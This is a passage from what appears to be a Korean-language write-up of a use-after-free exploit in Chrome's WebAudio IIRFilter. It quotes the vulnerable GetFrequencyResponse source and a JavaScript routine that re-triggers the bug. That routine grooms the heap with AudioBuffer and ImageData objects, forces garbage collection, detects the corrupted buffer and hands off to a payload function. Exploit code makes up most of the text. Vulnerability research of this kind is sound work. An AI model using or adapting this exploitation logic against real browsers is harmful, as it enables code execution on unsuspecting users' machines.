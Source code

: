 이렇게 leak이 성공했으면 exploit을 하기 위해 한번더 취약점을 트리거합니다.

```jsx
void IIRDSPKernel::GetFrequencyResponse(int n_frequencies,
                                    	const float* frequency_hz,
                                    	float* mag_response,
                                    	float* phase_response) {
...
  Vector<float> frequency(n_frequencies);
  double nyquist = this->Nyquist();
  // Convert from frequency in Hz to normalized frequency (0 -> 1),
  // with 1 equal to the Nyquist frequency.
  for (int k = 0; k < n_frequencies; ++k)
	frequency[k] = frequency_hz[k] / nyquist;
...
```

이 과정에서 취약점 트리거가 성공했는지 확인하기 위해 getFrequencyResponse 함수를 사용합니다. 이 함수는 Nyquist 필터로 채워진 frequencies 배열을 생성하고 연산에 사용되는 배열은 0으로 초기화됩니다.

```jsx
async function finalUAFCallback() {
	for (let i = 0; i < 256; i++) {
    		floatArray.fill(0);
 
         	iirFilters[i].getFrequencyResponse(floatArray, floatArray, floatArray);
 
    		if (floatArray[0] != 3.1415927410125732) {
        		await collectGargabe();
 
        		audioBufferArray2 = [];
 
        		for (let j = 0; j < 80; j++)
                 		audioBufferArray1.push(sharedAudioCtx.createBuffer(1, 2, 10000));
 
        		iirFilters = new Array(1);
    	     		await collectGargabe();
 
        		for (let j = 0; j < 336; j++)
            			imageDataArray.push(new ImageData(1, 2));
        		imageDataArray = new Array(10);
        		await collectGargabe();
 
        		for (let j = 0; j < audioBufferArray1.length; j++) {
            			let auxArray = new BigUint64Array(audioBufferArray1[j].getChannelData(0).buffer);
            			if (auxArray[0] != BigInt(0)) {
                			kickPayload(auxArray);
                			return;
            			}
             		}
 
        		return;
    		}
	}
}
```
